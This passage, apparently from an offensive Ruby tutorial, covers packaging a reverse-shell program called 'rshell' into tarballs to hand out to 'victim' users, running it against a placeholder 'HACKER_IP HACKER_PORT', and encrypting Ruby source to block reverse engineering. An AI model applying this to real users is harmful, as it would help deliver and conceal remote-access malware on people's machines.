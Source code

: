 You can also just create package directories, without creating the .tar.gz files, by passing DIR\_ONLY=1:

```
rake package DIR_ONLY=1
rake package:linux:x86 DIR_ONLY=1
rake package:linux:x86_64 DIR_ONLY=1
rake package:osx DIR_ONLY=1
```

**On Victim Machine**

You now have three files which you can distribute to end users.

```
rshell-1.0.0-linux-x86.tar.gz
rshell-1.0.0-linux-x86_64.tar.gz
rshell-1.0.0-osx.tar.gz
```

Suppose the end user is on Linux x86\_64. S/he uses your app by downloading rshell-1.0.0-linux-x86\_64.tar.gz, extracting it and running it:

```
wget rshell-1.0.0-linux-x86_64.tar.gz
...
tar xzf rshell-1.0.0-linux-x86_64.tar.gz
cd rshell-1.0.0-linux-x86_64
./rshell
# => ruby rshell.rb.rb [HACKER_IP  HACKER_PORT]
```

#### mruby

**mruby CLI** A utility for setting up a CLI with mruby that compiles binaries to Linux, OS X, and Windows.

**Prerequisites**

* mruby-cli
* Docker
* Docker Compose

**Developer introduction**

[https://www.youtube.com/watch?v=OvuZ8R4Y9xA](https://www.youtube.com/watch?v=OvuZ8R4Y9xA)

## Close Source code

Sometimes we don't want to disclose our source code for whatever reason, but we still want to share our applications either commercially or for free. Here a commercial solution for that purpose, RubyEncoder.

**RubyEncoder** protects Ruby scripts by compiling Ruby source code into a bytecode format and this is followed by encryption. This protects your scripts from reverse engineering. Ruby scripts protected with RubyEncoder can be executed but cannot be used to extract Ruby source code as there is no source code remaining within the protected script in any form.
